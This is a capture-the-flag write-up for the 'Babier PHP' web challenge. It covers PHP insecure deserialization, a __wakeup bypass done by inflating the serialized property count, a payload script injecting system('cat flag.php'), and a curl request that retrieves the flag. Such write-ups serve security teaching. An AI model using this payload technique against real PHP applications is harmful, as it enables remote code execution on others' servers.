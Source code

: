 ```yaml
---
permalink: /ctf/HKUST-Firebird-CTF-Competition-2025/Web/Babier-PHP/index.html
title: Babier PHP - HKUST Firebird CTF Competition 2025 Web Challenge Writeup
description: My HKUST Firebird CTF Competition 2025 writeup for web challenge "Babier PHP".
ogImageUrl: https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKUST-Firebird-CTF-Competition-2025/images/Pasted%20image%2020250113173445.png
---
```


# Babier PHP

<details><summary markdown="span"><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- Solved by: @siunam
- 4 solves / 894 points
- Author: @ppcc
- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆☆

## Background

Just some simpler PHP deserialization.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKUST-Firebird-CTF-Competition-2025/images/Pasted%20image%2020250113173445.png)

## Enumeration

Same as the last part, Baby PHP. Highly recommend you to read the [last part's writeup]() if you haven't done so.

This time, other classes except `A` are different. Let's take a look at the modified class `B`:

```php
class B
{
    public $command;
    public $guess;
    public $random_number;
    public function __wakeup()
    {
        $this->command = "echo 'flag';";
    }

    public function __call($method, $args)
    {
        // You will get it eventually after the competition. 
        for ($i = 0; $i < 10000; $i++) {
            $this->guess = random_int(0, getrandmax());
            if ($this->guess !== $this->random_number) {
                // echo "Incorrect guess: " . $this->guess . "<br>"; // Also no more leaked random number
                return;
            }
        }
        eval($this->command);
    }
}
```

In magic method `__call`, although the for loop check is a little bit different, the **bypass method is exactly the same**.

However, magic method [`__wakeup`](https://www.php.net/manual/en/language.oop5.magic.php) is causing us some troubles. According to its documentation, it said:

> Conversely, [unserialize()](https://www.php.net/manual/en/function.unserialize.php) checks for the presence of a function with the magic name [\_\_wakeup()](https://www.php.net/manual/en/language.oop5.magic.php#object.wakeup). If present, this function can reconstruct any resources that the object may have.

So, when `unserialize` is called, it'll also execute magic method `__wakeup` and reconstruct the object instance. In our case, our **`command` property will get overwritten by the `__wakeup` magic method**.

If we Google "PHP `__wakeup` bypass", we should see [this blog post](https://fushuling.com/index.php/2023/03/11/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B8%ADwakeup%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/):

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKUST-Firebird-CTF-Competition-2025/images/Pasted%20image%2020250113174347.png)

Turns out, if the serilized object string's property number is greater than the correct one, magic method `__wakeup` will not be invoked.

> Note: Feel free to read [this PoC](https://github.com/Xp4int3r/POC/blob/master/CVE-2016-7124.md) for more information.

## Exploitation

To bypass magic method `__wakeup`, we need to first get our normal serialized payload:

<details><summary markdown="span"><strong>payload.php</strong></summary>

```php
<?php
include_once "index.php";

$a = new A();
$a->class = new B();
$a->class->command = "system('cat flag.php');";
$a->class->guess = 1;
$a->class->random_number = &$a->class->guess;

$serialized = serialize($a);
echo $serialized;
```

</details>

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Babier-PHP)-[2025.01.13|17:53:15(HKT)]
└> php payload.php 
O:1:"A":1:{s:5:"class";O:1:"B":3:{s:7:"command";s:23:"system('cat flag.php');";s:5:"guess";i:1;s:13:"random_number";R:4;}}
[...]
```

Then, we modify `"A":1`'s `1` to be greater than `1`:

```php
O:1:"A":1337:{s:5:"class";O:1:"B":3:{s:7:"command";s:23:"system('cat flag.php');";s:5:"guess";i:1;s:13:"random_number";R:4;}}
```

```shell
┌[siunam♥Mercury]-(~/ctf/HKUST-Firebird-CTF-Competition-2025/Web/Babier-PHP)-[2025.01.13|17:54:46(HKT)]
└> curl --get http://phoenix-chal.firebird.sh:36011/ --data-urlencode "payload=O:1:\"A\":2:{s:5:\"class\";O:1:\"B\":3:{s:7:\"command\";s:23:\"system('cat flag.php');\";s:5:\"guess\";i:1;s:13:\"random_number\";R:4;}}"
<?php
$flag = "firebird{This_is_an_intended_behavior..._Consider_reading_the_official_guideline}";
echo "flag{You_win_This_is_the_flag}";
?>
```

- **Flag: `firebird{This_is_an_intended_behavior..._Consider_reading_the_official_guideline}`**

## Conclusion

What we've learned:

1. PHP insecure deserialization & `__wakeup` magic method bypass
